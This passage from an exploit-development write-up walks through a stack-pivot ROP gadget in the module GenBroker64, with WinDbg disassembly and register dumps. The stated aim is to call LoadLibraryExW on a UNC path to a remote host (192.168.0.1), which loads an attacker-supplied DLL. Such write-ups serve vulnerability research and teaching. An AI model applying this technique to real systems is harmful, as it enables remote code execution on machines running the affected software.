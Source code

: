 Let's run through what happens when execution is redirected to `0x14005bd25`:

```text
0:011> u 0x14005bd25 l3
GenBroker64+0x5bd25:
00000001`4005bd25 8be1            mov     esp,ecx
00000001`4005bd27 803d5a2a0a0000  cmp     byte ptr [GenBroker64+0xfe788 (00000001`400fe788)],0
00000001`4005bd2e 0f8488010000    je      GenBroker64+0x5bebc (00000001`4005bebc)

0:011> db 00000001`400fe788 l1
00000001`400fe788  00                                               .

0:011> u 00000001`4005bebc l0n11
GenBroker64+0x5bebc:
00000001`4005bebc 4c8d5c2460      lea     r11,[rsp+60h]
00000001'4005bec1 498b5b30        mov     rbx,qword ptr [r11+30h]
00000001'4005bec5 498b6b38        mov     rbp,qword ptr [r11+38h]
00000001'4005bec9 498b7340        mov     rsi,qword ptr [r11+40h]
00000001'4005becd 498be3          mov     rsp,r11
00000001`4005bed0 415f            pop     r15
00000001`4005bed2 415e            pop     r14
00000001`4005bed4 415d            pop     r13
00000001`4005bed6 415c            pop     r12
00000001'4005bed8 5f              pop     rdi
00000001`4005bed9 c3              ret
```

This one is interesting. The first instruction effectively pivots the stack to the heap chunk under our control. What is weird about it is that it uses the 32-bit registers `esp` & `ecx` and not `rsp` & `rcx`. If either the stack or our heap buffer addresses were to be allocated inside a region above `0xffff'ffff`, things would go wrong (because of truncation).

```text
0:011> r @rsp
rsp=000000001961acd8

0:011> r @rcx
rcx=000000001970bf00
```

There's no way both of those addresses are always allocated under `0xffff'ffff` I thought. I must have gotten lucky when I captured the crash-dump. But after running it multiple times it seemed like both the heap and the stack addresses fit into a 32-bit register. This was unexpected, and I don't know why the kernel always seems to lay out those regions in the lower part of the virtual address space. Regardless, I was happy about it 😅

After pivoting the stack, it reads three values into `@rbx`, `@rbp` & `@rsi` at different offsets from `@r11`. `@r11` is pointing to `@rsp+0x60` which is at offset `0x60` from the heap chunk start. This is fine because we have control over `0xc0` bytes  which makes the offsets `0x90` / `0x98` / `0xa0` inbound. After that, the stack is pivoted again a little further via the `mov rsp, r11` instruction, which moves it `0x60` bytes forward. From there, five pointers are popped off the stack, giving us control over `@r15` / `@r14` / `@r13` / `@r12` / `@rdi`.

What's next now 🤔? We made a lot of progress but what we've been doing until now is just setting things up to do useful things. The puzzle pieces are yet to be arranged to call `LoadLibraryExW(L"\\\\192.168.0.1\\x\\a.dll\x00", 0, 0)`. The target is a 64-bit process, so we need to load `@rcx` with a pointer to the string. Both `@rdx` & `@r8` need to be set to zero. To call `LoadLibraryExW`, we need to dereference the IAT chunk at `0x1400ae418`, and redirect execution there:
```text
0:011> dqs 0x1400ae418 l1
00000001`400ae418  00007ffd`7028e4f0 kernel32!LoadLibraryWStub
```
